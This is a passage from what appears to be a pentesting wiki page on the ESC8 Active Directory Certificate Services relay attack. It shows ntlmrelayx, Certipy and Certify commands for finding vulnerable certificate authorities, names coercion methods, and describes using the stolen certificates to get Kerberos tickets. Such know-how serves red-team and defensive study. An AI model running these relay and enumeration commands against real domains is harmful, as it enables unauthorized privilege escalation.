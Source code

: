 # Web endpoint (ESC8)

## Relay servers setup

From UNIX-like systems, [Impacket](https://github.com/SecureAuthCorp/impacket)'s [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) can be used to conduct the ESC8 escalation scenario.
```bash
ntlmrelayx -t http://$PKI.domain.local/certsrv/certfnsh.asp --adcs --template "Template name"
```

> [!TIP]
> The certificate template flag (i.e. `--template`) can either be left blank (defaults to Machine or User whether relayed account name ends with `$`) or chosen among the certificate templates that fill the requirements.
> 
> For instance, if the relayed principal is a domain controller, the `DomainController` template must be specified.

[Certipy](https://github.com/ly4k/Certipy) can be used to enumerate information regarding the certificate templates (EKUs allowing for authentication, allowing low-priv users to enroll, etc.) and identify enabled HTTP endpoint.
```bash
# find ESC8-vulnerable CAs
certipy find -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -stdout | grep -B20 ESC8
# find and look through enabled templates for ones that could be used for authentication
certipy find -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -stdout -enabled
```

> [!TIP]
> By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.

## 2. Authentication coercion

Just like any other NTLM relay attack, once the relay servers are running and waiting for incoming NTLM authentications, authentication coercion techniques can be used (e.g. PrinterBug, PetitPotam, PrivExchange) to force accounts/machines to authenticate to the relay servers.

## 3. Loot

Once incoming NTLM authentications are relayed and authenticated sessions abused, base64-encoded PFX certificates will be obtained and usable with Pass-the-Certificate to obtain a TGT and authenticate.

From Windows systems, the [Certify](https://github.com/GhostPack/Certify) tool can be used to enumerate enabled web endpoints (both HTTP and HTTPS).
```batch
Certify.exe cas
```

> [!WARNING]
> If web endpoints are enabled, use UNIX. Unknown if this can be done from Windows
